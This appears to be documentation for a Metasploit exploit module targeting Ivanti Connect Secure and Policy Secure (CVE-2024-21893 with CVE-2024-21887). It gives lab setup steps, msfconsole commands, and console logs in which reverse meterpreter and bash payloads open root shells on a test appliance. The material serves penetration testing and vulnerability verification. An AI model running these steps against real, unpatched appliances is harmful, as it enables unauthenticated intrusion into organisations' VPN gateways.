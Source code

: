 ## Vulnerable Application
This module chains a server side request forgery (SSRF) vulnerability (CVE-2024-21893) and a command injection
vulnerability (CVE-2024-21887) to exploit vulnerable instances of either Ivanti Connect Secure or Ivanti
Policy Secure, to achieve unauthenticated remote code execution. All currently supported versions 9.x and
22.x are vulnerable, prior to the vendor patch released on Feb 1, 2024. It is unknown if unsupported versions
8.x and below are also vulnerable.

## Testing
To test we used Ivanti Connect Secure version 22.3R1 (build 1647), deployed as a virtual appliance for HyperV. The
below steps are for HyperV, but it should be very similar to install on VMWare.

* Signup for a trial to download the file `ps-ics-hyper-v-isa-v-22.3r1.0-b1647-package.zip`
* From this ZIP file, extract the file `ISA-V-HYPERV-ICS-22.3R1-1647.1-VT-hyperv.vhdx`
* Create a new VM in HyperV and specify the VHDX file as the hard drives media.
* Boot the VM and follow the console instructions to install the product.
* After installation completes, you will have created an admin account and password. You can log into the admin
  web interface by visiting https://<TARGET_IP_ADDRESS>/admin in your web browser if you want.

## Verification Steps
1. Start msfconsole
2. `use exploit/linux/http/ivanti_connect_secure_rce_cve_2024_21893`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set PAYLOAD cmd/linux/http/x64/meterpreter/reverse_tcp`
5. `check`
6. `exploit`

## Scenarios
To support a broad set of available payloads, we support both the Linux and Unix platforms. This allows for native
Linux payloads to be used, but also payloads like Python meterpreter or a Bash shell.

### Automatic (Linux Payload)

```
msf exploit(linux/http/ivanti_connect_secure_rce_cve_2024_21893) > set RHOST 192.168.86.111
RHOST => 192.168.86.111
msf exploit(linux/http/ivanti_connect_secure_rce_cve_2024_21893) > set PAYLOAD cmd/linux/http/x64/meterpreter/reverse_tcp
PAYLOAD => cmd/linux/http/x64/meterpreter/reverse_tcp
msf exploit(linux/http/ivanti_connect_secure_rce_cve_2024_21893) > show options

Module options (exploit/linux/http/ivanti_connect_secure_rce_cve_2024_21893):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[
                                       ,type:host:port][...]
   RHOSTS   192.168.86.111   yes       The target host(s), see https://docs.me
                                       tasploit.com/docs/using-metasploit/basi
                                       cs/using-metasploit.html
   RPORT    443              yes       The target port (TCP)
   SSL      true             no        Negotiate SSL/TLS for outgoing connecti
                                       ons
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   FETCH_COMMAND      CURL             yes       Command to fetch payload (Acc
                                                 epted: CURL, FTP, TFTP, TNFTP
                                                 , WGET)
   FETCH_DELETE       false            yes       Attempt to delete the binary
                                                 after execution
   FETCH_FILENAME     XMZdmHhNxYx      no        Name to use on remote system
                                                 when storing payload; cannot
                                                 contain spaces.
   FETCH_SRVHOST                       no        Local IP to use for serving p
                                                 ayload
   FETCH_SRVPORT      8080             yes       Local port to use for serving
                                                  payload
   FETCH_URIPATH                       no        Local URI to use for serving
                                                 payload
   FETCH_WRITABLE_DI  /tmp             yes       Remote writable dir to store
   R                                             payload; cannot contain space
                                                 s.
   LHOST              eth0             yes       The listen address (an interf
                                                 ace may be specified)
   LPORT              4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf exploit(linux/http/ivanti_connect_secure_rce_cve_2024_21893) > check
[*] 192.168.86.111:443 - The service is running, but could not be validated.
msf exploit(linux/http/ivanti_connect_secure_rce_cve_2024_21893) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Sending stage (3045380 bytes) to 192.168.86.111
[*] Meterpreter session 3 opened (192.168.86.42:4444 -> 192.168.86.111:45734) at 2024-02-09 09:21:59 +0000

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.86.111
OS           :  (Linux 4.15.18.34-production)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > cat /home/ssl-vpn-VERSION
export DSREL_MAJOR=22
export DSREL_MINOR=3
export DSREL_MAINT=1
export DSREL_DATAVER=4802
export DSREL_PRODUCT=ssl-vpn
export DSREL_DEPS=ive
export DSREL_BUILDNUM=1647
export DSREL_COMMENT="R1"
meterpreter > exit
[*] Shutting down session: 3

[*] 192.168.86.111 - Meterpreter session 3 closed.  Reason: Died
msf exploit(linux/http/ivanti_connect_secure_rce_cve_2024_21893) > 
```

### Automatic (Unix Payload)

```
msf exploit(linux/http/ivanti_connect_secure_rce_cve_2024_21893) > set PAYLOAD cmd/unix/reverse_bash
PAYLOAD => cmd/unix/reverse_bash
msf exploit(linux/http/ivanti_connect_secure_rce_cve_2024_21893) > show options

Module options (exploit/linux/http/ivanti_connect_secure_rce_cve_2024_21893):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[
                                       ,type:host:port][...]
   RHOSTS   192.168.86.111   yes       The target host(s), see https://docs.me
                                       tasploit.com/docs/using-metasploit/basi
                                       cs/using-metasploit.html
   RPORT    443              yes       The target port (TCP)
   SSL      true             no        Negotiate SSL/TLS for outgoing connecti
                                       ons
   VHOST                     no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  eth0             yes       The listen address (an interface may be s
                                     pecified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf exploit(linux/http/ivanti_connect_secure_rce_cve_2024_21893) > check
[*] 192.168.86.111:443 - The service is running, but could not be validated.
msf exploit(linux/http/ivanti_connect_secure_rce_cve_2024_21893) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Command shell session 4 opened (192.168.86.42:4444 -> 192.168.86.111:45736) at 2024-02-09 09:23:15 +0000

id
uid=0(root) gid=0(root) groups=0(root)
cat /home/ssl-vpn-VERSION
export DSREL_MAJOR=22
export DSREL_MINOR=3
export DSREL_MAINT=1
export DSREL_DATAVER=4802
export DSREL_PRODUCT=ssl-vpn
export DSREL_DEPS=ive
export DSREL_BUILDNUM=1647
export DSREL_COMMENT="R1"
exit
[*] 192.168.86.111 - Command shell session 4 closed.
msf exploit(linux/http/ivanti_connect_secure_rce_cve_2024_21893) > 
```
